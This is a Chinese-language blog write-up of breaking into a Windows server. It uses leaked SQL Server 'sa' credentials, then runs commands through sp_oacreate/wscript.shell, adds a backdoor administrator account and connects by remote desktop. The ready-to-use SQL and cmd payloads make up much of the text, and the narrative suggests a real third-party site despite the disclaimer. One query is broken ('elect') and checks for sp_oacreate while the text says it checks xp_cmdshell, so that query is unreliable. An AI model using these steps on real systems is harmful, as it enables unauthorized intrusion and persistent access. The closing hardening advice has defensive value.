 ```yaml
---
title: 从 SQL Server 提权到远程桌面（存在杀软）
date: 2022-12-25 15:01:00
updated: 2022-12-25 15:01:00
categories:
- [渗透,SQL Server]
tags:
- SQL Server
- 渗透
- 日记
keywords: SQL Server, sql server提权, 渗透
cover: https://img.dreamfall.cn/cover/14.webp
description: 电脑管家就不是什么好东西
---
```

{% note red 'fas fa-fan' flat%}
以下内容属于渗透复现，未经授权的渗透测试是不允许的
{% endnote %}
{% note red 'fas fa-fan' flat%}
利用本文中的技术造成的后果与本人无关，倡导维护网络安全人人有责，共同维护网络文明和谐。
{% endnote %}

## 介绍

SQL Server也称Mssql Server，是微软家的数据库，常见于操作系统是Windows Server的服务器上

SQL Server的默认超级管理员是`sa`，在早期版本中，SQL Server的权限非常大，是`SYSTEM`权限

`sa`用户不仅能修改所有数据库的内容，还能直接对windows的注册表进行修改，执行命令等

## 渗透过程
### 获取数据库密码
通过SQL Server提权渗透，需要数据库的账号密码，不巧的是，我在扫描网站的目录时。发现了一处信息泄露，泄露的SQL Server的用户和密码，更巧的是这个网站使用的是`sa`用户，还告诉了我SQL Server的IP端口，于是我尝试连接，成功连上数据库。
![test.asp](https://img.dreamfall.cn/post/sqlserver/1.webp)
### 执行命令
成功连上数据库，基本上就一半成功了，接下来尝试执行命令
![连接数据库](https://img.dreamfall.cn/post/sqlserver/2.webp)
#### 尝试xp_cmdshell
1. 确认`xp_cmdshell`是否存在
   ```sql
   elect count(*) from master.dbo.sysobjects where xtype='x' and name='sp_oacreate';
   ```
   ![xp_cmdshell](https://img.dreamfall.cn/post/sqlserver/3.webp)
结果为1，则证明存在

2. 使用`xp_cmdshell`执行命令，发现报错
    ![xp_cmdshell_2](https://img.dreamfall.cn/post/sqlserver/4.webp)
   `xp_cmdshell`存在，却无法执行命令，我当时怀疑是`xplog70.dll`被删了，`xp_cmdshell`是通过`xplog70.dll`来执行命令的

3. 尝试重新启用`xp_cmdshell`，结果命令结果告诉我`xp_cmdshell`不存在，在高级配置选项里也没有。
   ![xp_cmdshell_3](https://img.dreamfall.cn/post/sqlserver/5.webp)

4. 于是我又尝试重新加载`xp_cmdshell`，
   ```sql
   dbcc addextendedproc("xp_cmdshell","xplog70.dll");
   ```
   ![xp_cmdshell_4](https://img.dreamfall.cn/post/sqlserver/6.webp)

   结果告诉我数据库中已存在名为 'xp_cmdshell' 的对象。

   既然已经存在，那我就删了再重建
   ![xp_cmdshell_5](https://img.dreamfall.cn/post/sqlserver/7.webp)
   结果删都不让我删

我当时这个人直接傻掉，第一次遇到这种情况，存在又不存在的'xp_cmdshell'

#### sp_oacreate

于是`xp_cmdshell`没法用，我尝试使用`sp_oacreate`提权

1. 尝试用系统`wscript.shell`来执行系统命令

   ```sql
   declare @shell int
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net users > F:\tmp\1.txt'
   ```

   执行`net user`命令，并将命令的结果写入网站目录下`1.txt`文件中，通过浏览器访问该文件，获取命令回显
   ![sp_oacreate](https://img.dreamfall.cn/post/sqlserver/10.webp)
   访问文件，发现命令执行成功
   ![sp_oacreate_2](https://img.dreamfall.cn/post/sqlserver/9.webp)

2. 创建用户，添加用户到`administrators`组
   ```sql
   declare @shell int
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user abcd 123456 /add'
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators abcd /add'
   ```
3. 查看远程桌面服务是否启动
   ```sql
   EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server' ,'fDenyTSConnections'
   ```
   0表示开启
4. 获取远程桌面端口
   ```sql
   EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber'
   ```
    ![远程桌面](https://img.dreamfall.cn/post/sqlserver/11.webp)

5. 用windows自带的远程桌面连接成功连上服务器
   ![远程桌面2](https://img.dreamfall.cn/post/sqlserver/12.webp)
发现了这电脑上存在杀软，居然是电脑管家。。。

翻看日志，发现我用 'xp_cmdshell' 执行的命令被这电脑管家拦截了。。。
![电脑管家](https://img.dreamfall.cn/post/sqlserver/8.webp)

## 总结
1. 数据库的管理员账号不要使用于生产环境，一旦成功登录，基本上就离控住你电脑不远了
2. 记得清理网站目录下的文件，防止被利用
3. 腾讯电脑管家用处不大，但总比裸奔好